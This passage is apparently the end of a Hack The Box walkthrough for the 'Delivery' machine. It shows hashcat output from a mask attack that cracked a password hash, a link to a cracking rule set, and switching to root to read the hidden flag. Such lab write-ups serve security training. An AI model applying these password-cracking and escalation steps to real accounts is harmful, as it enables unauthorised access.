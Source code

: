 ```text
Time.Started.....: Thu May 20 11:59:45 2021 (0 secs)
Time.Estimated...: Thu May 20 11:59:45 2021 (0 secs)
Guess.Mask.......: PleaseSubscribe!?d?d [18]
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       38 H/s (6.45ms) @ Accel:4 Loops:32 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 16/100 (16.00%)
Rejected.........: 0/16 (0.00%)
Restore.Point....: 8/100 (8.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidates.#1....: PleaseSubscribe!78 -> PleaseSubscribe!34

Started: Thu May 20 11:59:42 2021
Stopped: Thu May 20 11:59:47 2021
```

It took me a while to get that mask correct. It would have been quicker to use a rule set like [this one](https://github.com/praetorian-inc/Hob0Rules) which contains all the common variations.

## Root Flag

With the hash cracked we can now switch to root and grab the flag:

```text
maildeliverer@Delivery:/opt/mattermost/config$ su - root
Password: 
root@Delivery:~# ls -la
total 44
drwx------  5 root root 4096 Jan  5 06:39 .
drwxr-xr-x 18 root root 4096 Jan  5 06:06 ..
lrwxrwxrwx  1 root root    9 Dec 28 07:04 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Dec 26 09:33 .cache
drwx------  3 root root 4096 Dec 27 13:41 .gnupg
-rwxr-x---  1 root root  103 Dec 26 11:26 mail.sh
-r--------  1 root root  382 Dec 28 07:02 note.txt
-rw-r-----  1 root root  148 Aug 17  2015 .profile
-rw-r-----  1 root root 1499 Dec 26 10:55 py-smtp.py
-r--------  1 root root   33 May 20 04:30 root.txt
drwxr-xr-x  2 root root 4096 Dec 27 14:28 .vim

root@Delivery:~# cat root.txt 
<HIDDEN>
```

I hope this walk through helped, and that you enjoyed this fun machine made by [Ippsec](https://www.hackthebox.eu/home/users/profile/3769).

See you next time.
